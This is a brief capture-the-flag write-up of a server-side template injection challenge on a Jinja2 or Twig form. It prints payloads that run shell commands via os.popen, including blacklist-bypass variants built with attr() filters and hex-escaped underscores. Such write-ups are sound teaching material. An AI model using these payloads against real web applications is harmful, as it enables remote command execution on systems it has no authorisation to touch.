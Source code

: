 # 1. Analysis
There is input form
![](Pasted%20image%2020250507144157.png)

Input normal SSTI payload -> its vulnerable
![](Pasted%20image%2020250507145151.png)

i think it used jinja2 or Twig
![](Pasted%20image%2020250507150030.png)

When i try to inject SSTI payload for running shell command there is a input validation, i think web server blacklisted some character
```
{{cycler.__init__.__globals__.os.popen('ls').read()}}
```
![](Pasted%20image%2020250508103418.png)

# 2. Exploitation
When i browsing on internet i found bypass the SSTI filter
![](Pasted%20image%2020250509094203.png)

then i convert my previous payload into this bypassed payload base on those rules.
```
{{ cycler|attr('__init__')|attr('__globals__')|attr('__getitem__')('os')|attr('popen')('ls')|attr('read')() }}

{{ cycler|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('os')|attr('popen')('ls')|attr('read')() }}
```
![](Pasted%20image%2020250509094943.png)
got the flag
![](Pasted%20image%2020250509095210.png)
# 3. Conclussion
Knowledge need to know:
- SSTI
- Bypassed technique

Hurray! You solved this challenge.